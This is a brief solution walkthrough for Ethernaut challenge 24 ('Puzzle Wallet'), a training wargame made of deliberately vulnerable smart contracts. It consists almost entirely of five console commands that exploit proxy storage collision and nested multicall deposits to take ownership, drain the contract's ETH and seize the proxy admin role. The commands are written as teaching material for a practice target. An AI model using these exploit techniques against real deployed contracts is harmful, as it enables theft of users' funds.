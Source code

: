 # Ethernaut Challenge 24: Puzzle

## Step 1:

Exploiting variable collision to set the owner to our address
`await contract.sendTransaction({data:'0xa6376746000000000000000000000000E93D3574F293919b290072554699C33f8D717150'});`

## Step 2:

Gaining access to all methods
`await contract.addToWhitelist(player)`

## Step 3:

Exploiting multicall to multiply our deposit
`await contract.multicall(['0xd0e30db0','0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000'],{value:1000000000000000});`

## Step 4:

Withdrawing all the Eth inside the contract
`await contract.execute('0xE93D3574F293919b290072554699C33f8D717150', 2100010000000000, [])`

## Step 5:

Exploiting variable collision to set the proxy admin to our address
`await contract.setMaxBalance(web3.utils.toBN('0xE93D3574F293919b290072554699C33f8D717150'))`
